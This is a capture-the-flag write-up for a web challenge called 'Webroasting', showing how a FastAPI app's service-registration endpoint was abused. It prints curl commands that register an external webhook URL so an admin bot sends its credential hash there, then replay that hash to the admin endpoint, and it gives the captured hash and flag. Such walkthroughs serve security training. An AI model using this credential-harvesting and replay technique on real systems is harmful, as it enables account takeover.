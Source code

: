 # Webroasting - CTF Challenge Writeup

## Challenge Overview
This challenge involved exploiting a FastAPI web application with multiple endpoints to capture admin credentials and gain access to the flag.

## Target Information
- **URL**: `http://68.219.177.187:8003`
- **Framework**: FastAPI 0.1.0
- **Challenge Type**: Web exploitation, Credential harvesting

## Initial Reconnaissance

### API Endpoints Discovery
The application exposed several endpoints through its OpenAPI documentation:

1. `GET /` - Index page
2. `POST /register` - Service registration endpoint
3. `GET /login` - Login form
4. `POST /login` - Login authentication
5. `GET /admin` - Admin form
6. `POST /admin` - Admin access endpoint

### Key Endpoints Analysis

#### POST /register
- **Purpose**: Register a service with a name and URL
- **Parameters**:
  ```json
  {
    "service_name": "string",
    "service_url": "string"
  }
  ```

#### POST /admin
- **Purpose**: Admin access with hash-based authentication
- **Parameters**:
  - `username`: string
  - `provided_hash`: string

## Exploitation Strategy

### Step 1: Service Registration for Credential Harvesting

The key insight was that the application likely has an admin bot that visits registered service URLs. By registering a webhook URL, we could capture any authentication attempts made by the admin bot.

**Command used**:
```bash
curl -X POST http://68.219.177.187:8003/register \
  -H 'Content-Type: application/json' \
  -d '{"service_name":"exploit","service_url":"https://webhook.site/bf4837bb-a011-4282-bd6a-39e20b46ad9c"}'
```

**Response**:
```json
{"message":"Service exploit registered successfully"}
```

### Step 2: Credential Capture

After registering the webhook URL, the admin bot made a login attempt to our webhook endpoint. This allowed us to capture the following credentials:

**Captured payload**:
```json
{
  "username": "admin",
  "kerberos_hash": "8592769bb7b43cb292d0d75991682328",
  "source": "admin-bot"
}
```

**Extracted credentials**:
- **Username**: `admin`
- **Hash**: `8592769bb7b43cb292d0d75991682328`

![Admin Credentials](amdin_creds.png)

### Step 3: Admin Access

Using the captured credentials, we accessed the admin endpoint:

**Command used**:
```bash
curl -X POST http://68.219.177.187:8003/admin \
  -d "username=admin&provided_hash=8592769bb7b43cb292d0d75991682328"
```

**Response**:
```html
<!doctype html>
<html>
  <body>
    <h1>FLAG: SecurinetsENIT{27186e6c7a5b39d5d864031dcbe95a7f}</h1>
  </body>
</html>
```

## Technical Details

### Vulnerability Analysis
The application contained the following security issues:

1. **Insecure Service Registration**: The application allowed arbitrary URL registration without proper validation
2. **Admin Bot Behavior**: An automated admin bot visited registered URLs and inadvertently exposed credentials
3. **Credential Exposure**: The admin credentials were transmitted to external services during automated interactions

### Attack Vector
This was a **webhook-based credential harvesting attack** where:
1. We registered a malicious webhook URL as a service
2. The admin bot interacted with our webhook, exposing its credentials
3. We used the captured credentials to access the admin panel

## Flag
```
SecurinetsENIT{27186e6c7a5b39d5d864031dcbe95a7f}
```

---
*Challenge completed successfully through webhook-based credential harvesting technique.*